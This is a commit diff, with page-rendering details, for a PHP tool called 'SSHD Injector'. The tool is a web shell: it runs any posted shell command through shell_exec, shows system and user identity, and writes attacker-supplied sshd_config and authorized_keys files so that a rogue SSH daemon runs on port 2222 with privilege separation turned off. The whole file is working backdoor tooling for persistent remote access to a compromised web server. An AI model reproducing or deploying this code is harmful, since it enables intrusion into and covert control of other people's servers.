

Before and after one commit to Giraudux/giraudux-toolkit, a PHP site: page /sshd_injector.php in a window 1280 px wide. Shown: the top 606 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
fix some mistakes

```diff
--- a/ssh/sshd_injector.php
+++ b/ssh/sshd_injector.php
@@ -4,34 +4,38 @@
 
 $sshd_bin = "sshd"; //line5
 $ssh_keygen_bin = "ssh-keygen"; //line6
+$workspace = "."; //line7
 
-$home = getenv("HOME");
-if($home === FALSE)
+$workspace = realpath($workspace);
+if($workspace === FALSE)
 {
-    $home = ".";
+    $workspace = realpath(NULL);
 }
 
 $path = getenv("PATH");
 if($path === FALSE)
 {
-    $path = ".";
+    $path = $workspace;
 }
 
-$ssh_path = $home."/.ssh";
-$authorized_keys = $ssh_path."/authorized_keys";
-$sshd_path = $home."/.ssh";
+$sshd_path = $workspace."/.sshd";
+$sshd_authorized_keys = $sshd_path."/authorized_keys";
 $sshd_config = $sshd_path."/sshd_config";
-$sshd_hostkey = $sshd_path."/ssh_host_key";
+$sshd_hostkey = $sshd_path."/sshd_host_key";
 $sshd_pidfile = $sshd_path."/sshd.pid";
 
-$ssh_path_exist = @is_dir($ssh_path);
-$authorized_keys_exist = @is_file($authorized_keys);
 $sshd_path_exist = @is_dir($sshd_path);
+$sshd_authorized_keys_exist = @is_file($sshd_authorized_keys);
 $sshd_config_exist = @is_file($sshd_config);
 $sshd_hostkey_exist = @is_file($sshd_hostkey);
 $sshd_pidfile_exist = @is_file($sshd_pidfile);
 
-$sshd_default_config_content = "Port 2222\nHostKey ".$sshd_hostkey."\nUsePrivilegeSeparation no\nPidFile ".$sshd_pidfile."\n";
+$sshd_default_config_content =
+"Port 2222
+HostKey $sshd_hostkey
+UsePrivilegeSeparation no
+PidFile $sshd_pidfile
+AuthorizedKeysCommand $sshd_authorized_keys";
 
 function prepare_dir($dir)
 {
@@ -40,16 +44,6 @@ function prepare_dir($dir)
         return TRUE;
     }
     return @mkdir($dir);
-}
-
-function prepare_ssh_dir()
-{
-    return prepare_dir($ssh_path);
-}
-
-function prepare_sshd_dir()
-{
-    return prepare_dir($sshd_path);
 }
 
 function start()
@@ -72,33 +66,34 @@ function clear()
     <head>
         <meta charset="utf-8" />
         <title>SSHD Injector</title>
+        <style>
+        p, table, th, td { border: medium solid black; }
+        input, textarea { width: 100%; }
+        </style>
     </head>
     <body>
-        <p style="border-style: solid; border-width: medium;">
+        <p>
             <?php echo htmlentities(shell_exec("uname -a")); ?>
             <br>
             <?php echo htmlentities(shell_exec("id")); ?>
             <br>
-            <?php echo htmlentities("HOME = ".$home); ?>
+            <?php echo htmlentities("PATH = ".$path); ?>
             <br>
-            <?php echo htmlentities("PATH = ".$path); ?>
+            <?php echo htmlentities("workspace = ".$workspace); ?>
             <br>
             <?php echo htmlentities("sshd = ".$sshd_bin); ?>
             <br>
             <?php echo htmlentities("ssh-keygen = ".$ssh_keygen_bin); ?>
             <br>
+        </p>
         <table>
-                <tr>
-                    <td><?php echo htmlentities($ssh_path); ?></td>
-                    <td><?php if($ssh_path_exist){ echo "O"; } else{ echo "X"; } ?></td>
-                </tr>
             <tr>
                 <td><?php echo htmlentities($sshd_path); ?></td>
                 <td><?php if($sshd_path_exist){ echo "O"; } else{ echo "X"; } ?></td>
             </tr>
             <tr>
-                    <td><?php echo htmlentities($authorized_keys); ?></td>
-                    <td><?php if($authorized_keys_exist){ echo "O"; } else{ echo "X"; } ?></td>
+                <td><?php echo htmlentities($sshd_authorized_keys); ?></td>
+                <td><?php if($sshd_authorized_keys_exist){ echo "O"; } else{ echo "X"; } ?></td>
             </tr>
             <tr>
                 <td><?php echo htmlentities($sshd_config); ?></td>
@@ -113,7 +108,6 @@ function clear()
                 <td><?php if($sshd_pidfile_exist){ echo "O"; } else{ echo "X"; } ?></td>
             </tr>
         </table>
-        </p>
         <form method="post" action="<?php echo basename(__FILE__); ?>">
             <fieldset>
                 <legend>Update sshd_config</legend>
@@ -121,7 +115,7 @@ function clear()
                 if(isset($_POST["sshd_config_content"]))
                 {
                     echo "<p style=\"border-style: solid; border-width: medium;\">";
-                    if((!prepare_sshd_dir()) || (file_put_contents($sshd_config, $_POST["sshd_config_content"])))
+                    if((!prepare_dir($sshd_path)) || (file_put_contents($sshd_config, $_POST["sshd_config_content"]) === FALSE))
                     {
                         echo "Error";
                     }
@@ -156,7 +150,7 @@ function clear()
                 if(isset($_POST["authorized_keys_content"]))
                 {
                     echo "<p style=\"border-style: solid; border-width: medium;\">";
-                    if((!prepare_ssh_dir()) || (file_put_contents($sshd_authorized_keys, $_POST["authorized_keys_content"])))
+                    if((!prepare_dir($sshd_path)) || (file_put_contents($sshd_authorized_keys, $_POST["authorized_keys_content"]) === FALSE))
                     {
                         echo "Error";
                     }
@@ -191,12 +185,12 @@ function clear()
                 if(isset($_POST["command"]))
                 {
                     echo "<p style=\"border-style: solid; border-width: medium;\">";
-                    echo htmlentities("$".$_POST["command"])."<br>";
+                    echo htmlentities("$ ".$_POST["command"])."<br>";
                     echo nl2br(htmlentities(shell_exec($_POST["command"])));
                     echo "</p>";
                 }
 ?>
-                <input type="text" name="command" value="find `echo $PATH | tr ':'' ' '` -name 'sshd' 2> /dev/null" style="width:100%">
+                <input type="text" name="command" value="find `echo $PATH | tr ':' ' '` -name 'sshd' 2> /dev/null" style="width:100%">
                 <br />
                 <input type="submit" value="Execute" />
             </fieldset>
```
Lines whose indentation alone changed are shown as unchanged.
